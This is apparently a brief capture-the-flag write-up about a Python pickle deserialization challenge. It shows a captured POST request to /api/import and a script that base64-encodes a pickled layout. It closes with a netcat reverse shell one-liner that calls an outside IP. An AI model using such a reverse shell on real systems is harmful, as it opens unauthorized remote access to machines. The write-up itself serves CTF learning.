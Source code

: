 # python string attack
hint: deserialization

# obtain post request format
- In Chrome, press f12 to see post/get requests sent.
the post sent when using api/import
```http
POST /api/import HTTP/1.1
Host: ctf.adl.tw:12004
Content-Length: 17
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Content-Type: application/json
Origin: http://ctf.adl.tw:12004
Referer: http://ctf.adl.tw:12004/
Accept-Encoding: gzip, deflate
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: fukuwarai_sess=d0efc493-36d5-4824-8700-a979fa57e739
Connection: close

{"layout":"1322"}
```
# sending a normal request
1. test post param:
```py
import pickle
import requests
import base64

url = 'http://ctf.adl.tw:12004/api/import'
my_layout = [
    {'id': 'ninja', 'left': 350, 'top': 180},
    {'id': 'pizza', 'left': 442, 'top': 275},
    
]
my_layout=pickle.dumps(my_layout)
my_layout=base64.b64encode(my_layout)
my_layout=str(my_layout,'utf-8')
print(my_layout)#gASVQAAAAAAAAABdlCh9lCiMAmlklIwFbmluamGUjARsZWZ0lE1eAYwDdG9wlEu0dX2UKGgCjAVwaXp6YZRoBE26AWgFTRMBdWUu
myobj={'layout':my_layout}

r = requests.post(url, json = myobj)
pass
#
```

2. reverse shell payload
```sh
mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.25 9999 >/tmp/f
```


